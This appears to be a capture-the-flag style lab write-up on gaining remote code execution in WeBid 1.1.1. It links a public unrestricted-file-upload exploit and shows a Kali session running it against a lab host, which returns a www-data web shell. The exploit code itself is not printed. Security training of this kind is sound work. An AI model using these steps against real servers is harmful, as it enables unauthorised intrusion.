






#### 4. WeBid

- The attacker might not have any user level access to the web application. However, this does not mean that the application cannot be compromised remotely. Remote Code Execution vulnerabilities could be triggered even by unauthenticated users.
- In the exercise below, the attacker is unauthenticated to the web application and needs to find a remote code injection attack to run arbitrary commands on the server.
- A version of WeBid is vulnerable to a remote code execution attack.
- Objective: Your task is to find and exploit this vulnerability.

```
Username: admin
Password: password
```

----

- Identify Version of WeBid

[`renlok/WeBid/docs`](https://github.com/renlok/WeBid/tree/master/docs)







- Telegram - `@GetSploitBot`



[`WeBid 1.1.1 Unrestricted File Upload Exploit`](https://vulners.com/zdt/1337DAY-ID-23323)



```sh
root@kali:~# php 23323.php m94kcvqznmji2iv4nt0mxroi1.public2.attackdefenselabs.com /

+----------------------------------------+
| WeBid Unrestricted File Upload Exploit |
+----------------------------------------+


Exploiting...Waiting for shell...

  ,--^----------,--------,-----,-------^--,
  | |||||||||   `--------'     |          O
  `+---------------------------^----------|
    `\_,-------, _________________________|
      / XXXXXX /`|     /
     / XXXXXX /  `\   /
    / XXXXXX /\______(
   / XXXXXX /
  / XXXXXX /   .. CWH Underground Hacking Team ..
 (________(
  `------'

Webid-shell# id
uid=33(www-data) gid=33(www-data) groups=33(www-data)

Webid-shell# uname -a
Linux attackdefense.com 4.15.0-42-generic #45-Ubuntu SMP Thu Nov 15 19:32:57 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux

Webid-shell#
```



----

EOF
